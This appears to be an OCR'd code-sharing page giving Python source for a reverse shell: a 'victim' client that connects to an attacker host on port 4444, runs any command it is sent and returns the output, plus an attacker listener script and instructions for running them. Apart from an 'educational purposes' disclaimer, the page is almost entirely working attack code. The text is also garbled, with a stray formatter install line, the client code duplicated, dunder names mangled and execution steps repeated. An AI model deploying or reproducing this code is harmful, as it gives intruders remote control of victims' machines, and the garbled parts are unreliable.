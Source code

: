 This is a simplified example for educational purposes only. In a real-world scenario, such tools are often much more complex and include various features for evading detection, encrypting communications, and more.
# Install black
pip install black

# Format code with black
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if _name_ == "_main_":
    main()


**Client.py (Victim's Machine)**
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if _name_ == "_main_":
    main()
`
**[**Attacker.py**`]**
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 4444))  # Bind to all available interfaces on port 4444
    s.listen(1)
    print("Waiting for connection...")
    conn, addr = s.accept()
    print(f"Connected to {addr}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command.lower() == "exit":
            break
        output = conn.recv(4096).decode()
        print(output)
    conn.close()

if _name_ == "_main_":
    start_server()

**
**Steps for execution******
Set Up the Attacker's Machine:

Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
*
*
The server will start listening for incoming connections on port 4444
**In client terminal**
Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
The server will start listening for incoming connections on port 4444.


    
